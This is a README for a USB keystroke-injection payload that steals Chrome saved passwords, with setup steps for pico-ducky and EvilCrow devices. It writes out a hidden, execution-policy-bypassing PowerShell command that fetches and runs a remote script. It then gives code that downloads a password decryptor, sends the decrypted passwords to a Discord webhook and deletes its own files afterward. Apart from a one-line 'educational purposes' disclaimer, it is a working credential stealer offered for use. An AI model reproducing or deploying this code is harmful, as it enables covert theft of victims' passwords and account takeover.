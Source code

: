 THIS SCRIPT IS ONLY INTENDED FOR EDUCATIONAL PURPOSES
(decrypt script made by ohyicong)

# What it does

This payload downloads and executes a powershell script that downloads a python chrome password decryptor, and then sends the decrypted passwords over discord using webhooks.

# Dependencies:
- Windows
- Python

# How to use

## Pico-Ducky

If you have a [pico-ducky](https://github.com/dbisu/pico-ducky) which is what this payload was originally built for you just download the keylog-starter-pico.dd and place it in the root of your pico directory. If you have a pico-ducky without wifi you need to rename it to ``payload.dd`` ``payload2.dd`` ``payload3.dd`` or ``payload4.dd`` read more here [here](https://github.com/dbisu/pico-ducky).

## Evilcrow cable-pro

Copy the contents of the ``keylog-starter-evilcrow.h`` to your ``payload.h`` file on your [EvilCrow Cable-pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro/tree/main)

## P4wnP1 A.L.O.A

I am working on a version for HID script

## Any other ducky script compatible tools

I havent tested any others but if you do please open up an issue and tell me how it went

# How it Works:

(This code is very unoptimized, but i havent bothered fixing it)

## The rubber ducky script
When the grabber.dd runs it opens a run dialoge and enters this script.

```powershell
powershell -W h -NonI -NoP -Ep bypass -c "$dc = '<your discord webhook here>'; irm https://shorturl.at/bMQ15 | iex
```
This line opens a hidden windows with ``-W h`` a non interactive windows with ``-NonI`` no user profiles with ``NoP`` and bypasses the anti script execution policy using ``-Ep bypass``
Then it sets the ``$dc`` variable to your webhook.
And last but not least it downloads the starter.ps1 script and executes it. The download link is shortened to fit inside the run dialoge. (I want to host my own site in the future where i can have my own directly short links)

## The powershell script

The powershell script is used as sort of a base of operations, it downlaods the python password decryptor and sends the file over discord. Heres how it works:

### Extracting the passwords:

To extract the passwords saved in chrome we use a python script made by ohyicong, if you are interested in how it works you can read his [medium article](https://ohyicong.medium.com/how-to-hack-chrome-password-with-python-1bedc167be3d)

First we tell powershell where python is located on the system so we can use it to execute the script:
```powershell
$filePath = "$env:LocalAppData\Programs\Python\Python311\python.exe"
```
Then we install the needed python libraries, if the user already have the libraries pip will automaticly cancel the installation and the script will proceed wither way.
```powershell
py -m pip install pycryptodomex pywin32
```
Then we download the python script the same way the rubber ducky script downloaded the ```starter.ps1``` scrip:
```powershell
Invoke-WebRequest -Uri https://github.com/simen64/Pico-HID-Scripts/blob/main/chrome-password-stealer/decrypt_chrome_password.py -OutFile $Env:USERPROFILE\Documents\stealer.py
```
Now we run the python script using this line. The ```&``` tells powershell to execute a command. The ```$env``` variable is where python is located and the ```$Env``` variable is where the python script is saved from the previous step
```powershell
& $env:LocalAppData\Programs\Python\Python311\python.exe $Env:USERPROFILE\Documents\stealer.py
```

### Sending the passwords over Discord

This part of the code is what takes the decrypted passwords file and sends it to you over discord.

First we define the user thats logged into the computer, this will be used to acces folders like ```C:\Users\User\Documents\```
```powershell
$user = $env:USERNAME
```
Then we use the now defined &user variable to define where the file ```decrypted_password.csv``` file is stored, this file contains the passwords that the python script previosly extracted.
```powershell
$file = "C:\Users\$user\Documents\decrypted_password.csv"
```
This variable plains and simple tells discord what message to deliver the file with
```powershell
$message = "Extracted passwords:"
```
This line of code is used to generate a unique identifier for the message each time the script is ran
```powershell
$boundary = [System.Guid]::NewGuid().ToString()
```
Here we read the ```decrypted_password.csv``` file from the previously defined ```$file``` variable and saves it into a variable called ```$fileContent```
```powershell
$fileContent = [System.IO.File]::ReadAllBytes($file)
```
This code takes all of the now gathered information and puts it into an array called ```$bodyLines``` that is joined to one string in a variable called ```body```
```powershell
$bodyLines = @(
    "--$boundary",
    "Content-Disposition: form-data; name=`"content`"",
    "",
    $message,
    "--$boundary",
    "Content-Disposition: form-data; name=`"file`"; filename=`"file.txt`"",
    "Content-Type: application/octet-stream",
    "",
    [System.Text.Encoding]::Default.GetString($fileContent),
    "--$boundary--"
)

$body = $bodyLines -join "`r`n"
```
After that is gathered we have to define the http headers for the webhook, we set the header to ```multipart/form-data``` so it know that we are sending a file. Then we give the request or unique identifier with the variable ```$boundary``` that we generated earlier.
```powershell
$headers = @{
    "Content-Type" = "multipart/form-data; boundary=$boundary"
}
```
Last but not least we invoke a web request to our webhook with all of our information. This includes setting the request to POST, including the headers and the body.
```powershell
Invoke-RestMethod -Uri $webhookUrl -Method Post -Headers $headers -Body $body
```
And after the script is done it self destructs and deletes all the files downloaded, ```$MyInvocation.MyCommand.Source``` is a built in powershell variable that defines the script that its being called from.
```powershell
Remove-Item stealer.py -Force
Remove-item decrypted_password.csv -Force
Remove-Item -Path $MyInvocation.MyCommand.Source
```
